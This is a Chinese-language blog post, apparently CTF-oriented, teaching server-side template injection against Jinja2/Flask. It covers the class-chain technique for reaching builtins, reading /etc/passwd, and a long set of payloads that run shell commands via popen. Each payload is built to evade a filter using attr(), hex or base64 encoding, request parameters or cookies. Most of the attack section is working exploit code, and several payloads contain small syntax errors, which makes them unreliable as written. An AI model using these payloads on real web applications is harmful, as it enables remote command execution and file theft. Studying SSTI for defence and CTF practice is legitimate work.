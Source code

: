 # SSTI注入篇


# SSTI 漏洞成因

ssti 服务端模板注入成因为：web 应用在使用框架（如 python 的 flask、jinjia2、django；java 的 freemarker、velocity；php 的 thinkphp、smarty 等）时，由于程序员对代码编写的不规范、不严谨造成模板注入漏洞，攻击者通过恶意注入模板代码影响服务器端模板引擎的行为。

# SSTI 中常用魔术方法

- \_\_class\_\_ 返回一个实例所属的类
- \_\_mro\_\_ 查看类继承的所有父类，直到 object
- \_\_subclasses\_\_() 获取一个类的子类，返回的是一个列表
- \_\_bases\_\_ 以元组形式返回一个类直接继承的类
- \_\_init\_\_ 类实例创建之后调用，对当前对象的实例的初始化
- \_\_globals\_\_ 使用方式为**函数名**\.\_\_globals\_\_，返回一个当前空间下能使用的模块、方法和变量的字典
- \_\_getattribute\_\_ 当类被调用时，无条件进入此函数
- \_\_getattr\_\_ 访问对象中不存在的属性时调用
- \_\_dict\_\_ 返回所有属性，包括属性、方法等
- \_\_builtins\_\_ 查看当前所有导入的内建函数

# 攻击思路

- ## 获取基本类

```
dict //返回类中的函数和属性，父类子类互不影响
base //返回类的父类 python3
mro //返回类继承的元组，(寻找父类) python3
init //返回类的初始化方法  
subclasses() //返回类中仍然可用的引用 python3
globals //对包含函数全局变量的字典的引用 python3

对于返回的是类实例的话:
class //返回实例的对象，可以使类实例指向 Class，使用上面的魔术方法
```

```
''.__class__.__mro__[-1]
{}.__class__.__bases__[0]
().__class__.__bases__[0]
[].__class__.__bases__[0]
```

- ## 获取基本类后，继续获取基本类的子类

  ```
  object.subclasses()
  ```

- ## 找\_\_init\_\_类

  ```
  ''.__class__.__mro__[2].__subclasses__()[99].__init__
  ```

- ## 查看其引用\_\_builtins\_\_

  ```
  ''.__class__.__mro__[2].__subclasses__()[138].__init__.__globals__['__builtins__']
  ```

- ## 寻找 keys 中可用函数，使用 keys 中的 file 等函数来实现读取文件的功能

```
''.__class__.__mro[2].subclasses()[138].init.globals['builtins']['file']('/etc/passwd').read()
```

# 常用目标函数

```
file、subprocess.Popen、os.popen、exec、eval
```

# 绕过过滤方法

- ## 过滤中括号

  魔术方法\_\_getitem\_\_可替代中括号

  ```python
  # 当中括号被过滤时，如下将被限制访问:
  {{''.__class__.__base__.__subclasses__()['xx'].['popen']('cat /flag')}}

  # 可用__getitem__替换中括号[]:
  {{''.__class__.__base__.__subclasses__().__getitem__(13).__getitem__('popen')('cat /flag')}}
  ```

- ## 过滤下划线

  ```python
  # 原 payload 被限制:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  # 1.使用 attr()绕过，payload:
  {{ () | attr(request.args.a) | attr(request.args.b) | attr(request.args.c) | attr(request.args.d) | attr(request.args.e)()['popen']('cat /flag') | attr('read')() }}
  同时 get 方法传参?a=__class__&b=__base__&c=__subclasses__&d=__init__&e=__globals__
  
  # 2.将下划线进行编码绕过，payload:
  {{ ().['\x5f\x5fclass\x5f\x5f']['\x5f\x5fbase\x5f\x5f']['\x5f\x5fsubclasses\x5f\x5f']()[xx]['\x5f\x5finit\x5f\x5f'].['\x5f\x5fglobals\x5f\x5f']['popen']('cat /flag') }}
  ```

  

- ## 过滤点

  ```python
  # 原 payload 被限制:
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  # 1.使用 attr()绕过，payload:
  {{ () | attr('__class__') | attr('__base__') | attr('__subclasses__')() | attr('__getitem__')(xx) | attr('__init__') | attr('__globals__') | attr('__getitem__')('popen')('cat /flag') | attr('read')()}}
  
  # 2. 使用中括号绕过，payload:
  {{ ()['__class__']['__base__']['__subclasses__']()[xx]['__init__']['__globals__']['popen']('cat /flag')['read']()}}
  ```

  

- ## 过滤大括号

  使用\{\%\%\}替代\{\{\}\}，payload:

  \{\% print(''.__class__.__base__.__subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read()) \%\}

- ## 过滤引号

  ```python
  # 当'被过滤后以下访问将被限制
  {{ ().__class__.__base__.subclasses__()[xx].__init__.__globals__['popen']('cat /flag').read() }}
  
  # 1.通过request.args的get传参输入引号内的内容，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[request.args.popen](request.args.cmd).read() }}
  同时get传参?popen=popen&cmd=cat /flag
  
  # 2.通过request.form的post传参输入引号内的内容，payload：
  {{ ().__class__.__base__.__subclasses__()[117].__init__.__globals__[request.form.popen](request.form.cmd).read() }}
  同时post传参?popen=popen&cmd=cat /flag
  
  # 3.使用cookies传参，如request.cookies.k1、request.cookies.k2、k1=popen;k2=cat /flag
  ```

  

- ## 过滤数字


  使用过滤器 length 绕过
  \{\% set a='aaa' | lenth \%\}{{ ().__class__.__base__.__subclasses__()[a]}}


- ## 过滤函数名

  ```python
  # 1.使用拼接绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['pop'+'en']('cat /fl' + 'ag').read() }}
  
  # 2.使用16进制编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__['\x70\x6f\x70\x65\x6e']('cat /flag').read() }}
  
  # 3.使用base64编码绕过，payload:
  {{ ().__class__.__base__.__subclasses__()[xx].__init__.__globals__[base64.b64decode('cG9wZW4=').decode()]('cat /fl' + 'ag').read() }}
  ```
  
  


---

> 作者: Hinoatari  
> URL: https://hinoatari.github.io/posts/ssti%E6%B3%A8%E5%85%A5%E7%AF%87/  

